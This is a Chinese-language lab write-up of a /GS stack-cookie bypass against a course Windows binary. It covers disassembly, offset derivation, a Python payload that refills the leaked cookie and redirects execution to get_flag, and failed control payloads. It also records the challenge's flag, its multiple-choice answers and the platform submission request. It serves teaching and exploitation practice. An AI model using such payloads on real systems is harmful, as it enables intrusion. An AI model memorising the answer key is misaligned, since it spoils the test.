


# 6-1 系统层漏洞利用与逆向分析 · GS 缓冲区安全检查利用（泄漏驱动的 /GS Cookie 绕过）

## 题目信息

| 项目 | 内容 |
| --- | --- |
| 题目名称 | 系统层漏洞利用与逆向分析-GS缓冲区安全检查利用-G1（sectionID `6645`，课程内 number 22，题目内部编号 `C031-G1-F`） |
| 分类 | Pwn / 逆向分析 / 系统层漏洞利用（Windows PE 32 位栈溢出 + `/GS` 栈 Cookie 绕过） |
| 题目描述 | 靶机 `172.17.174.74:9999` 上运行一个 Windows 控制台服务，banner 会主动打印 `Buffer @ <addr>` 与 `Cookie : <hex>`；附件 `challenge.exe` 就是它的可执行文件。要求下载附件做本地逆向，找到程序中的漏洞，连接靶机**劫持控制流**，触发 `get_flag()` 函数取得**一次性凭证**（有效期 10 分钟），再拿凭证到实验环境里的 flag 兑换容器换取 flag。 |

Flag 题（questionID=9043）题干原文要点：

> * 运行题目的靶机地址：`172.17.174.74:9999`
> * 在"实验环境"中申请的容器运行 flag 兑换服务
>
> 附件中提供了运行在靶机上的 `challenge.exe`，请下载后进行本地逆向分析。
> 找到程序中的漏洞，连接靶机并劫持控制流，触发 `get_flag()` 函数以获取一次性凭证（有效期 10 分钟）。
>
> 使用 `nc` 连接靶机：
> ```
> nc 172.17.174.74:9999
> ```
>
> 成功获取一次性凭证后，在你自己的电脑上访问 flag 容器兑换 flag：
> ```
> curl "http://<Flag容器IP>:<port>/flag?token=<你的凭证>"
> ```

Note：本题属于 **`C031` 系列**（与前面 `C026` 的 DEP-G1/G2 不是同一系列）。它的防护组合是「**`/GS` 开启、地址固定**」，而 `DllCharacteristics = 0x8000` **不含 `NX_COMPAT`**——也就是说**本题考点不是 DEP，而是 `/GS` 栈 Cookie**。程序自己把「缓冲区地址」和「全局 `__security_cookie`」两样东西都打印给了客户端，于是一个本来用于防栈溢出的机制，被一次精确计算出来的**回填（refill）**绕过：`stored = leaked_cookie ^ (bufaddr + 0x104)`。这也是本文与 5-1 / 5-2（DEP 系列）最本质的区别。

## 环境信息

| 项目 | 内容 |
| --- | --- |
| 平台 | VMCourse 国产化教学实训平台，课程 ID `1639`，本章节 `sectionID` `6645`（课程内 number 22）；平台账号与口令只保存在本地未跟踪的 `.local/` 目录（不入库），本文不记录任何凭据、cookie 或个人身份信息 |
| 题型 | 3 道单选（9011 / 9013 / 9015）+ 1 道多选（9017）+ 1 道 Flag 填空（9043），题面共 5 题；题面接口返回 `isResubmit=false` ⇒ **判分只有一次机会** |
| 靶机实例 | envID `1197`（实验环境名 `C031-G1-F`），podID `1ph3vsze697ud4nwciwsgyuu3`，容器名 `s-148777`，image `t-11637/c031-g1-f:2026`；交付时 `state=Running`，`targetPorts=[22,80]`，过期时间 2026-10-13 21:40:35 |
| 端口映射（实测 `portInfos`） | `13152 → 22`（SSH）、**`13153 → 80`（flag 兑换服务）** |
| flag 兑换服务 | `http://172.17.0.13:13153/flag?token=<token>`（HTTP，返回 `text/plain`） |
| Pwn 靶机 | `172.17.174.74:9999`（**裸 TCP，非 HTTP**），实测 banner `Buffer @ 0019FE24\r\nCookie : AE128F8C\r\nEnter your name: `（55 字节，`\r\n` 换行） |
| 附件 | `challenge.exe`：PE32 executable (console) Intel 80386, for MS Windows，116224 B（题面附件表显示 113.5 K），MD5 `450adf00a6c79e9524accbcdf0343c61` |
| 章节实验环境 | 本题按 AGENTS.md 记录的 `lab/vm` 接口返回 `environment: null`，实例统一在「我的虚拟机」页管理，因此改用 `environments` / `instances` 接口与页面核对（截图 06b） |
| 本机工具 | 无 pwntools / pefile / Ghidra；用 Apple LLVM `objdump` + Python3 原生 `socket` / `struct` 完成全部利用与验证；截图用无头 Chrome（playwright-core 驱动系统 Chrome） |
| 选择题判分 | 4 道选择题的判定结果与平台判分一致（`isCorrect` 全为 true）：**9011=B、9013=C、9015=A、9017=A+B+D**；按惯例本文不展开选择题解析 |

## 解题过程

### 1. 附件核对与靶机 banner：两处主动泄漏（截图 01、03）

先用 `md5` / `file` 核对附件，再连一次靶机读 banner：

```console
$ md5 challenge.exe
450adf00a6c79e9524accbcdf0343c61   size=116224
$ file files/challenge.exe
files/challenge.exe: PE32 executable (console) Intel 80386, for MS Windows
$ nc -z -G 5 172.17.174.74 9999      # pwn 靶机在
$ nc -z -G 5 172.17.0.13 13153       # flag 兑换服务在

$ python3 pwn_gs.py banner > logs/01-banner.txt
Buffer @ 0019FE24
Cookie : AE128F8C
Enter your name:
```

环境名与端口映射在平台上核对（`C031-G1-F` / `s-148777` / `22→13152`、`80→13153`，截图 06b）；MD5 与体积和题面附件表一致，说明附件未被篡改。

banner 里有两处**主动泄漏**，它们是本题整条利用链的起点：

1. `Buffer @ 0019FE24` —— 受保护函数里那个栈缓冲区的**运行期地址**；
2. `Cookie : AE128F8C` —— 全局 `__security_cookie` 的**当前值**。

把这两件事放在一起，就得到了本帧栈帧的全部关键坐标（推导见步骤 3、8）：

```text
本帧 EBP = Buffer 地址 + 0x104 = 0x0019FE24 + 0x104 = 0x0019FF28
回填值   = __security_cookie ^ EBP = 0xAE128F8C ^ 0x0019FF28
```

一个必须记下的实测细节：**每新建一条连接，`Cookie` 都不同**（`AE128F8C` → `E137F7E3` → `833AD120` → `50F4F1D6` → `85344A88` → `89EEAC5F`，来自 6 次独立连接），而 **`Buffer` 地址始终是 `0x0019FE24`**。前者说明 cookie 确实是每次进程启动随机化的全局值（不是编译期常量），后者说明本题的栈地址在靶机环境下是确定的——这正是题目描述里「未开启 ASLR」的实测依据。


### 2. 静态分析：`DllCharacteristics 0x8000`（无 NX_COMPAT）与唯一导出 `get_flag`（截图 03）

```console
$ objdump -p files/challenge.exe
ImageBase               00400000
DllCharacteristics      00008000
                        TERMINAL_SERVER_AWARE
Load configuration:
  Security Cookie: 4313152          ← 0x41D040
Export Table:
 DLL name: challenge.exe
 Ordinal base: 1
 Ordinal      RVA  Name
       1   0x1000  get_flag          ← 唯一导出
    DLL Name: getflag.dll
    Hint/Ord  Name
           0  GetFlag               ← 一次性 token 由该 DLL 打印
```

三条关键结论：

1. `DllCharacteristics = 0x8000` = 仅 `TERMINAL_SERVER_AWARE`，**没有 `NX_COMPAT`（0x0100）**，也**没有 `DYNAMICBASE`（0x0040）**。**本题不是 DEP 题**：栈可执行与否不是重点，重点是下面这套 `/GS` 机制（对照：5-1/5-2 的 `C026` 系列是 `0x8100`，那才是 DEP 考点）；
2. `ImageBase = 0x400000`，导出表唯一一项 `get_flag` 的 RVA 是 `0x1000` ⇒ 静态地址 **`0x00401000`**，地址固定、可以直接写进 payload；
3. `Load configuration` 里登记了全局 `Security Cookie = 4313152 = 0x41D040`，说明 CRT 启用了 `/GS`——**受保护函数到底是哪一个、保护怎么落地，要看反汇编（步骤 3–5）**。

> 一个读 `objdump` 的坑：由于该 PE 的符号表里只有 `get_flag` 一个函数符号（RVA 0x1000），`objdump` 会把后面所有代码都标成 `<get_flag+0xNNN>`，本步骤里真正要看的**受保护函数位于 `0x401020`**（不是 0x401000 的那个 `get_flag`）。渲染稿里保留了 `objdump` 的原样输出，读的时候按地址而不是按符号名。


### 3. `/GS` prologue：cookie 与 EBP 异或后存入 `[EBP-4]`，偏移 256 / 260 / 264（截图 03b）

```console
$ objdump -D --start-address=0x401020 --stop-address=0x401035 files/challenge.exe
00401020: 55                push ebp
00401021: 8b ec             mov ebp,esp
00401023: 81 ec 04 01 00 00 sub esp,0x104          ; 缓冲区 = [EBP-0x104]（260 字节）
00401029: a1 40 d0 41 00    mov eax,[0x41d040]     ; 读全局 __security_cookie
0040102e: 33 c5             xor eax,ebp            ; 与本帧 EBP 异或
00401030: 89 45 fc          mov [ebp-4],eax        ; 存入 [EBP-4]（紧贴 saved EBP 下方）

0040107e: 8d 85 fc fe ff ff lea eax,[ebp-0x104]    ; 缓冲区首址
00401084: 50                push eax
00401085: 68 00 d0 41 00    push 0x41d000          ; "Buffer @ %p\n"   ← 泄漏①
0040108a: e8 a1 00 00 00    call 0x401130          ; printf
00401092: 8b 0d 40 d0 41 00 mov ecx,[0x41d040]
00401098: 51                push ecx
00401099: 68 10 d0 41 00    push 0x41d010          ; "Cookie : %08X\n"  ← 泄漏②
0040109e: e8 8d 00 00 00    call 0x401130          ; printf
004010a6: 68 20 d0 41 00    push 0x41d020          ; "Enter your name: "
004010b3: 8d 95 fc fe ff ff lea edx,[ebp-0x104]
004010b9: 52                push edx
004010ba: e8 36 53 00 00    call 0x4063f5          ; 无长度检查的读入（gets 语义）
004010c2: 8d 85 fc fe ff ff lea eax,[ebp-0x104]
004010c8: 50                push eax
004010c9: 68 34 d0 41 00    push 0x41d034          ; "Hello, %s!\n"
004010ce: e8 5d 00 00 00    call 0x401130          ; printf（把我们的输入回显出来）
```

**偏移推导（自己算，不照抄题面）**：

```text
缓冲区首址        = EBP - 0x104      （260 字节）
cookie 槽         = [EBP-4]          （4 字节，prologue 写入）
saved EBP         = [EBP]            （4 字节）
saved 返回地址    = [EBP+4]

缓冲区首字节 → cookie 槽   = 0x104 - 4 = 256
缓冲区首字节 → saved EBP   = 0x104     = 260
缓冲区首字节 → 返回地址    = 0x104 + 4 = 264
```

三条必须钉死的结论：

1. **cookie 存的是 `全局cookie ^ 本帧EBP`**（`401029` 读全局、`40102e` 异或 EBP、`401030` 写回 `[EBP-4]`）。所以回填时**不能**直接写泄漏出来的那个 cookie 值，必须先把本帧 EBP 还原出来再异或一次——`EBP = 泄漏的 Buffer 地址 + 0x104`，这一步的输入正是旁边那条 `Buffer @ %p` 泄漏；
2. **这是程序主动送出的信息泄漏**：`0x41d000` 的 `Buffer @ %p\n` 与 `0x41d010` 的 `Cookie : %08X\n` 两条 `printf` 把「本帧缓冲区地址」和「全局 cookie」原样发给客户端。`/GS` 的安全性建立在 cookie 不可预测上，一旦泄漏，「精确回填」就成立（步骤 8）；
3. **漏洞点在 `0x4063f5`**：往 `[EBP-0x104]` 的 260 字节栈缓冲区做**无长度检查**的读入（`gets` 语义：读到换行、丢弃换行、末尾补一个 `\0`），随后用 `%s` 原样回显。读入长度完全由客户端决定，这就是 CWE-121（栈缓冲区溢出）的触发点。

> 全局 cookie 的**写入点全镜像只有一处**（`0x4017c9`，即 `__security_init_cookie` 的初始化路径），说明它是「启动时生成一次、全进程共用」的随机值，而不是每次调用重新生成——这也是步骤 3 里「回填一个固定值就能过校验」成立的前提。

![`/GS` prologue 反汇编与偏移推导：缓冲区 `[EBP-0x104]`、cookie 存 `[EBP-4]`，偏移 256 / 260 / 264；真实命令回显的渲染稿（非终端实拍）](screenshots/03b-静态复核-GS-prologue与偏移256-264.png)

### 4. epilogue 与 `__security_check_cookie@0x40116a`（截图 03c）

```console
$ objdump -D --start-address=0x4010d6 --stop-address=0x4010e6 files/challenge.exe
004010d6: 33 c0             xor eax,eax
004010d8: 8b 4d fc          mov ecx,[ebp-4]        ; 取回本帧存的 cookie
004010db: 33 cd             xor ecx,ebp            ; 再异或 EBP，还原出全局 cookie
004010dd: e8 88 00 00 00    call 0x40116a          ; __security_check_cookie
004010e2: 8b e5             mov esp,ebp
004010e4: 5d                pop ebp
004010e5: c3                ret

$ objdump -D --start-address=0x40116a --stop-address=0x401178 files/challenge.exe
0040116a: 3b 0d 40 d0 41 00 cmpl 0x41d040,%ecx     ; 与全局 __security_cookie 比较
00401170: 75 01             jne 0x401173
00401172: c3                retl                    ; 相等 → 正常返回
00401173: e9 7c 02 00 00    jmp 0x4013f4            ; __report_gsfailure → 终止进程
```

校验的时序可以一句话概括：**`ret` 之前**先 `mov ecx,[ebp-4]`、`xor ecx,ebp` 把 cookie 还原，再 `call 0x40116a` 与全局值比较；只有相等才 `ret`，不等就跳 `0x4013f4 __report_gsfailure`，进程被直接终止——**不会返回**。这条路径在步骤 6 有实测对照。

![epilogue 反汇编与 `__security_check_cookie`（`cmp [0x41d040],ecx` / `jne 0x4013f4`）；真实命令回显的渲染稿（非终端实拍）](screenshots/03c-静态复核-epilogue与security_check_cookie.png)

### 5. 数据段：四条格式串与 cookie 初值 `0xBB40E64E`（截图 03d）

```console
$ objdump -s -j .data --start-address=0x41d000 --stop-address=0x41d050 files/challenge.exe
41d000 42756666 65722040 2025700a 00000000  Buffer @ %p.....
41d010 436f6f6b 6965203a 20253038 580a0000  Cookie : %08X...
41d020 456e7465 7220796f 7572206e 616d653a  Enter your name:
41d030 20000000 48656c6c 6f2c2025 73210a00   ...Hello, %s!..
41d040 4ee640bb 00000000 00000000 00000000  N.@.............
```

| 地址 | 内容 | 作用 |
| --- | --- | --- |
| `0x41d000` | `"Buffer @ %p\n"` | 泄漏①：本帧缓冲区地址 |
| `0x41d010` | `"Cookie : %08X\n"` | 泄漏②：全局 `__security_cookie` 当前值 |
| `0x41d020` | `"Enter your name: "` | 输入提示 |
| `0x41d034` | `"Hello, %s!\n"` | 溢出后的回显（对照实验里靠它判断走到了哪一步） |
| `0x41d040` | `4E E6 40 BB` → `0xBB40E64E` | 全局 `__security_cookie` 的**文件初值**，运行时被 `__security_init_cookie` 覆盖成随机值 |

`0xBB40E64E` 是 MSVC 的经典占位初值：它只是文件镜像里的值，程序启动时会被随机化（步骤 1 实测每次连接都不同），所以「cookie 是编译期常量」这一说法与实测不符。


### 6. 失败对照一：不回填 cookie ⇒ `/GS` 校验失败，进程静默终止（截图 02）

先证明 `/GS` 真的在工作：把 cookie 槽也用 `A` 顶掉，其余照常布置。

```console
$ python3 pwn_gs.py nocookie
   # b'A'*256 + b'A'*4(顶替 cookie) + b'B'*4 + p32(0x401000)
[F1 no-cookie-refill (expect __security_check_cookie failure)] payload len=268
--- banner (55 bytes) ---
Buffer @ 0019FE24
Cookie : E137F7E3
Enter your name:
--- response (274 bytes) ---
Hello, AAAA…（256 个 A）…BBBB!
```

现象与解释：

- 输出停在 `Hello, AAAA…BBBB!`，**连接随即被关闭，没有任何 token**。回显说明数据确实写进了缓冲区、也 `ret` 前的那段代码确实执行完了 `Hello` 这条 `printf`；
- 紧接着 epilogue 执行 `mov ecx,[ebp-4]` / `xor ecx,ebp`，还原出的值 = `0x41414141 ^ EBP ≠ 全局 cookie`，`0x40116a` 的 `jne` 命中，跳到 `0x4013f4 __report_gsfailure` 终止进程 ⇒ 我们精心写在偏移 264 的 `0x401000` **根本没被 `ret` 使用**；
- 这条对照是本题的**核心证据**：直接覆盖返回地址会被 `/GS` 拦下，想拿到 token 就必须先把 cookie 槽算对。


### 7. 失败对照二 / 三 / 四：偏移错、写错槽、长度不够（截图 02b）

为把「256 / 260 / 264 这三个数字」钉死，另做三条对照（每条都新建连接、用当次泄漏重新计算 `stored`）：

| 编号 | payload 结构 | 现象 | 原因 |
| --- | --- | --- | --- |
| **F2** | `A*252 + p32(stored) + A*4 + B*4 + p32(0x401000)`（cookie 放到偏移 **252**，整体错位 4 字节） | `Hello` 后连接即断，无 token | `[EBP-4]`（偏移 256–259）里落的是 `A*4`，还原值 ≠ 全局 cookie ⇒ `/GS` 依然拦下 |
| **F2b** | `A*256 + p32(stored) + p32(0x401000) + B*4`（把目标地址写到偏移 **260** 即 saved EBP 槽） | `Hello` 后进程崩溃，无 token | `/GS` 校验这次**通过了**，但 `0x401000` 落在 saved EBP 槽，返回地址槽（264）是 `BBBB` ⇒ `ret` 跳到 `0x42424242` 崩溃，控制流没有劫持成功 |
| **F3** | `A*256 + p32(stored) + B*4`（脚本标注为「只发 260 字节」，即数据只写到 saved EBP 槽末尾、**完全不碰偏移 264 的返回地址**；实际 payload 长度 264 B） | `Hello` 后崩溃，无 token | cookie 回填正确、`/GS` 通过，但返回地址仍是原值，`get_flag` 从未被调用 |

```console
$ python3 pwn_gs.py wrongoff
[F2 wrong cookie offset (252, expect /GS failure)] payload len=268
--- response (274 bytes) ---
Hello, AAAA…（含乱码字节）AAAABBBB!

$ python3 pwn_gs.py wrongoff2
[F2b ret at offset 260 (saved-ebp slot)] payload len=268
--- response (270 bytes) ---
Hello, AAAA…（含乱码字节）!

$ python3 pwn_gs.py short
[F3 only 260 bytes, ret not overwritten] payload len=264
--- response (274 bytes) ---
Hello, AAAA…（含乱码字节）BBBB!
```

三条对照各自排除一种可能：**偏移错 4 字节不行（F2）**、**写对 cookie 但目标地址放错槽不行（F2b）**、**cookie 对了但没覆盖返回地址也不行（F3）**。`F2` 与 `F2b` / `F3` 的差别尤其关键：前者被 `/GS` 拦，后两者是**通过了 `/GS` 却没能拿到 token**——把「防护拦住」与「利用失败」两种失败区分开，才能确认 256 / 260 / 264 这三个偏移缺一不可。



### 8. 正式利用：`stored = leaked_cookie ^ (bufaddr + 0x104)`（截图 04）

四段布局（本机无 pwntools，用 Python 标准库 `socket` + `struct`，脚本 `.local/process/6-1-scripts/pwn_gs.py`）：

```python
GET_FLAG = 0x00401000                       # 导出表 get_flag RVA 0x1000 + ImageBase 0x400000
bufaddr  = int(m.group(1), 16)              # banner: "Buffer @ %p"
cookie   = int(m.group(2), 16)              # banner: "Cookie : %08X"
ebp      = (bufaddr + 0x104) & 0xffffffff   # 本帧 EBP = 缓冲区首址 + 0x104
stored   = (cookie ^ ebp) & 0xffffffff      # 回填值 = 全局 cookie ^ EBP（prologue 的逆运算）
payload  = b"A"*256 + p32(stored) + b"B"*4 + p32(GET_FLAG)
```

栈布局逐格核对：

```text
偏移            长度  内容                作用
[0   .. 255]     256  b'A'*256            填满缓冲区 [EBP-0x104]（从缓冲区首址数 256 字节）
[256 .. 259]       4  p32(stored)         覆盖 [EBP-4] 的 cookie 槽 ⇒ epilogue 还原后 == 全局 cookie
[260 .. 263]       4  b'B'*4              saved EBP（内容任意）
[264 .. 267]       4  p32(0x00401000)     覆盖返回地址 ⇒ ret 跳进 get_flag

prologue 本帧写入： [EBP-4] = __security_cookie ^ EBP
epilogue 本帧还原： ecx = [EBP-4] ^ EBP = stored ^ EBP = leaked_cookie  ← 与 cmp 的全局值相等 ✔
```

`stored = cookie ^ EBP` 这一步就是「prologue 的逆运算」：prologue 存的是 `cookie ^ EBP`，我们在 `[EBP-4]` 里放回**完全相同的值**，epilogue 再异或一次 EBP 就还原成全局 cookie，`0x40116a` 的 `cmp` 通过，`ret` 才会真正弹出被我们改写的 `0x00401000`。

```console
$ python3 pwn_gs.py exploit | tee logs/06-exploit-success.txt
Buffer @ 0019FE24
Cookie : 89EEAC5F
Enter your name: [calc] bufaddr=0x0019FE24 cookie=0x89EEAC5F ebp=0x0019FF28 stored=0x89F75377
--- response (610 bytes) ---
Hello, AAAA…（256 个 A 之后是 stored 的 4 个非可打印字节，回显成乱码）…BBBB!

[+] Token (valid 10 min, one-time):
1791888236.YzJ8GjnT9V3LANacRxIcLtAVPFV5s9cWqqPJSAcw_EX2eXIV_j-la5c1L07z-FkuXNPLVo9PkU28YfLavecfdQ

[*] Run on YOUR machine to get the flag:
    curl "http://<flag-server-ip>:<port>/flag?token=1791888236.YzJ8GjnT9V3LANacRxIcLtAVPFV5s9cWqqPJSAcw_EX2eXIV_j-la5c1L07z-FkuXNPLVo9PkU28YfLavecfdQ"
```

payload 长度 268 字节（脚本再补一个 `\n` 结束 `gets` 语义的读入），被覆盖的返回地址小端字节序为 `00 10 40 00`。通过 `/GS` 校验后 `ret` 弹出 `0x00401000`，进入 `get_flag()`：

```console
$ objdump -D --start-address=0x401000 --stop-address=0x401014 files/challenge.exe
00401000: 55                push ebp
00401001: 8b ec             mov ebp,esp
00401003: ff 15 30 61 41 00 call dword ptr [0x416130]   ; getflag.dll!GetFlag → 打印一次性 token
00401009: 6a 00             push 0x0
0040100b: ff 15 08 60 41 00 call dword ptr [0x416008]   ; KERNEL32!ExitProcess(0)
00401011: 90                nop
00401012: 5d                pop ebp
00401013: c3                ret
```

`get_flag()` 一进去就 `call dword ptr [0x416130]`（IAT 项对应导入表里的 `getflag.dll!GetFlag`）打印一次性凭证（形如 `<Unix 时间戳>.<base64url>`），紧接着 `ExitProcess(0)` 结束进程——它**不会返回**，所以返回地址槽之后不需要再布置「假返回地址」。

关于本图的换算行：截图中的 `[calc]` 行是本机脚本的真实输出，`ebp=0x0019FF28`、`stored=0x89F75377` 与 banner 的两处泄漏逐字对得上。**（说明：该渲染稿底部的辅助注释里把本帧 EBP 写成了 `0x0019FE28`，属注释文字笔误，正确值以图内 `[calc]` 真实输出行 `0x0019FF28` 为准，`0x0019FE24 + 0x104 = 0x0019FF28`。）**


### 9. 用一次性 token 兑换 flag 与兑换服务的失败对照（截图 05、05b）

token 有效期 10 分钟且单次可用，拿到后立刻兑换（端口映射实测 `13153 → 80`）：

```console
$ curl -sS --noproxy '*' -m 20 -i "http://172.17.0.13:13153/flag?token=1791888236.YzJ8GjnT9V3LANacRxIcLtAVPFV5s9cWqqPJSAcw_EX2eXIV_j-la5c1L07z-FkuXNPLVo9PkU28YfLavecfdQ"
HTTP/1.1 200 OK
Date: Tue, 13 Oct 2026 10:44:18 GMT
Content-Length: 38
Content-Type: text/plain; charset=utf-8

vmc{QTq6FSANCVjjVgYhRJ9x0PjpRYgOWi5o}
```

`Content-Length: 38` = 37 字符 flag + 结尾换行。兑换服务本身有三层判断，逐一验证：

```console
$ curl -i ".../flag?token=<同一个 token>"     # 重放
HTTP/1.1 403 Forbidden
Content-Length: 19
token already used

$ curl -i ".../flag?token=NOTATOKEN"          # 坏格式
HTTP/1.1 403 Forbidden
Content-Length: 36
invalid token: invalid token format

$ curl -i ".../flag"                          # 缺 token 参数
HTTP/1.1 400 Bad Request
Content-Length: 14
missing token
```

三种失败对应三种判断：**格式校验**（不符合 `<时间戳>.<base64url>` 结构直接拒）、**使用状态校验**（一次性凭证用过即废）、**参数存在性校验**（缺 `token` 参数 400）。也就是说，即使攻击者能控制靶机进程，拿到的也只是一枚短时、单次、且在服务端留下使用记录的凭证。


### 10. 提交答案与平台判分（截图 06a、06b）

`POST /api/student/submitAnswers`（multipart，多个 `answers` 字段），**每个 `answers` 字段的值必须是外层包了 questionID 的 JSON 字符串**：

```bash
curl -sS -k --noproxy '*' -m 60 -b .local/vmc-cookies.txt \
  -X POST "$VMC_BASE_IP/api/student/submitAnswers" \
  -F 'sectionID=6645' \
  -F 'answers={"questionID": 9011, "answer": "{\"answer\": [\"B\"], \"num\": 1}"}' \
  -F 'answers={"questionID": 9013, "answer": "{\"answer\": [\"C\"], \"num\": 1}"}' \
  -F 'answers={"questionID": 9015, "answer": "{\"answer\": [\"A\"], \"num\": 1}"}' \
  -F 'answers={"questionID": 9017, "answer": "{\"answer\": [\"A\",\"B\",\"D\"], \"num\": 3}"}' \
  -F 'answers={"questionID": 9043, "answer": "{\"num\": 3, \"answer\": [\"\", \"\", \"vmc{QTq6FSANCVjjVgYhRJ9x0PjpRYgOWi5o}\"]}"}' \
  -F 'contestMode=0'
# {"code":0,"msg":"success"}
```

`num` 取**所选答案个数**（单选 1、多选选 n 个填 n、填空固定 3）。响应里 5 条记录 `answerTimes` 均为 **1**（确为首次、也是唯一一次提交）；填空题的 `answer` 被平台规范化为 `{"num":3,"answer":["","true","vmc{...}"]}`（中间位补 `true`），与既往题目一致。两处属平台正常现象、不代表判错：顶层 `isCorrect:false`、各条 `scoreRate:0`。

判分以 `GET /api/student/get/answerHistory?sectionID=6645&contestMode=0` 为准：

| order | questionID | 题号 | 题型 | isCorrect |
| --- | --- | --- | --- | --- |
| 1 | 9011 | C031-G1-S1 | 单选 | true |
| 2 | 9013 | C031-G1-S2 | 单选 | true |
| 3 | 9015 | C031-G1-S3 | 单选 | true |
| 4 | 9017 | C031-G1-M | 多选 | true |
| 5 | 9043 | C031-G1-F | Flag 填空 | true |

**5/5 全部 `isCorrect=true`。** 平台作答页同样 5 题都显示「作答正确」，选择题所选选项高亮，第 5 题 flag 输入框内为最终 flag。




### 11. 失败尝试与踩坑清单（现象 / 原因 / 如何调整）

| # | 尝试 | 现象 | 原因 | 如何调整 |
| --- | --- | --- | --- | --- |
| 1 | `A*256 + A*4` 顶替 cookie + `B*4` + `p32(0x401000)` | `Hello` 后连接即断，无 token | cookie 槽不是合法值，epilogue 还原后与全局 cookie 不等，`0x40116a` 的 `jne` 跳到 `0x4013f4 __report_gsfailure`，返回地址没机会生效 | 必须回填 `stored = cookie ^ EBP` |
| 2 | cookie 放偏移 252（错位 4 字节） | 同上，无 token | 偏移错 ⇒ `[EBP-4]`（256–259）里是填充字节 | 用「缓冲区首址 → cookie 槽 = `0x104-4` = 256」定位，不靠总长猜 |
| 3 | 目标地址写到偏移 260（saved EBP 槽） | `/GS` 通过但进程崩溃，无 token | `0x401000` 落进 saved EBP 槽，返回地址槽仍是 `BBBB` ⇒ `ret` 跳非法地址 | 返回地址固定在**偏移 264** |
| 4 | `A*256 + p32(stored) + B*4`（脚本标注「只发 260 字节」，数据止于 saved EBP 槽，实际 264 B） | `/GS` 通过但崩溃，无 token | `ret` 仍是原值，`get_flag` 未执行 | 返回地址必须显式覆盖（完整 payload 268 字节） |
| 5 | 按符号名找受保护函数 | `objdump` 把 0x401020 起的代码全标成 `<get_flag+0xNNN>`，容易误读 | 该 PE 符号表只有 `get_flag` 一个函数符号（RVA 0x1000），地址 0x401020 处的函数没有独立符号 | 一律**按地址**反汇编与阅读（步骤 2 提示） |

### 12. 教学问答：`/GS` 机制、泄漏与加固（截图 07、08）

围绕本题主题向课程教学问答平台（Qwen2.5）提了 5 个问题（每题新开会话，会话号 5473 / 5475 / 5478 / 5480 / 5482，间隔 ≥ 10 s；问答原文另存 `.local/process/6-1-qa-transcript.json`）。**教学模型的输出只作思路参考，其中有 1 问被拒答、另外 4 问存在明确错误，下表如实标注。**

| # | conversation_id | 问题主题 | 回答要点与准确性核对 | 截图 |
| --- | --- | --- | --- | --- |
| 1 | 5473 | `/GS` 完整原理（cookie 生成、prologue 异或 EBP、epilogue 校验、`__report_gsfailure`） | 主干正确（启动生成 → 与本帧 EBP 异或存入 `[EBP-4]` → epilogue 调 `__security_check_cookie` → 失败进 `__report_gsfailure`）。**示例汇编有误**：写成 `xor DWORD PTR [ebp-4],0x12345678`、并把校验写成 `je`；正确形式是 `mov eax,[cookie]; xor eax,ebp; mov [ebp-4],eax`，校验为 `cmp … / jne`（本二进制实测见步骤 3、4） | 08 |
